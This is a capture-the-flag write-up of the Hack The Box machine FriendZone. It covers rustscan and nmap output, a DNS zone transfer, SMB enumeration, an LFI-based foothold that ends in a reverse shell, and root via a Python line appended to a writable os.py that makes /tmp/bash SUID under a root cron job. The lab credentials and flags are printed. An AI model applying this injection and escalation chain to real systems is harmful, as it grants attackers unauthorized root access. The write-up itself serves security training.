


# FriendZone

## Overview

This was a box full of rabbit holes. Initial foothold was gain by exploiting LFI with the help of SMB writeable share. From that it was easy to get root with modifying os.py file



**Name -** FriendZone

**Difficulty -** Easy

**OS -** Linux

**Points -** 20

## Information Gathering

### Port Scan

```bash
╭╴root @ …/c/Users/SiliconBits took 54s
╰─ rustscan -a 10.129.76.132 --ulimit 5000 --range 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.76.132:22
Open 10.129.76.132:21
Open 10.129.76.132:53
Open 10.129.76.132:80
Open 10.129.76.132:139
Open 10.129.76.132:443
Open 10.129.76.132:445
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-14 02:44 +06
Initiating Ping Scan at 02:44
Scanning 10.129.76.132 [4 ports]
Completed Ping Scan at 02:44, 3.14s elapsed (1 total hosts)
Nmap scan report for 10.129.76.132 [host down, received no-response]
Read data files from: /usr/bin/../share/nmap
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.28 seconds
           Raw packets sent: 8 (304B) | Rcvd: 7211 (288.440KB)
```

Version Scan

```bash
╰─ nmap 10.129.76.132 -p21,22,53,80,139,443,445 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-14 02:46 +06
Nmap scan report for 10.129.76.132
Host is up (0.083s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a96824bc971f1e54a58045e74cd9aaa0 (RSA)
|   256 e5440146ee7abb7ce91acb14999e2b8e (ECDSA)
|_  256 004e1a4f33e8a0de86a6e42a5f84612b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
|_http-title: 404 Not Found
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h00m03s, deviation: 1h43m55s, median: -4s
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2023-06-13T23:46:14+03:00
| smb2-time:
|   date: 2023-06-13T20:46:14
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.07 seconds
```

### DNS Enumeration

```bash
╭╴root @ …/c/Users/SiliconBits
╰─ dig axfr @10.129.76.132 friendzone.red

; <<>> DiG 9.18.12-1-Debian <<>> axfr @10.129.76.132 friendzone.red
; (1 server found)
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 150 msec
;; SERVER: 10.129.76.132#53(10.129.76.132) (TCP)
;; WHEN: Wed Jun 14 02:50:37 +06 2023
;; XFR size: 8 records (messages 1, bytes 289)
```

Found some dns and added it into the /etc/hosts file

### SMB Enumeration



smbmap shows some readable and writeable shares. And also It is necessary that the path for Files share is “/etc/Files”. So, For development server it should be “/etc/Development”. I will use that later.


Got credentials from general share - **admin:WORKWORKHhallelujah@#**

### **HTTP Enumeration**

I had multiple domains to check. upload subdomain doesn’t work. But the credentials worked on administrator1.friendzone.red


Dashboard


It asks for the params


The pagename parameter contains LFI vulnerability


So, I can read the source code now. But I could not find any valuable file for exploiting. But the thing I have LFI now. So, I can upload a shell in the Development share and use LFI to access that.


So, code execution is possible now. So, I managed to get a reverse shell from here


## Getting User.txt

I got the credential of friend user from mysql_data.conf file - **friend:Agpyu12!0.213$**


I got the user flag from the home directory


User Flag - 4d90ce9776ab831f5fe1b77a0a9b0649

## Getting root.txt

A cron as root is running. And it is running a file named /opt/server_admin/reporter.py


/opt/server_admin/reporter.py file contains this

```python
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

It is not doing anything. But interestingly, the o module related file is writeable by the user


So, I append the following line at the end of os.py file

```python
system('chown root:root /tmp/bash; chmod u+s /tmp/bash')
```

After Some time, cron executed the script and make the SUID bash file. Using that I got the root flag


Root Flag - 591b7e7837e8a42b8375f2865bd2fc6a

## Flags

**user.txt -** 4d90ce9776ab831f5fe1b77a0a9b0649

**root.txt -** 591b7e7837e8a42b8375f2865bd2fc6a
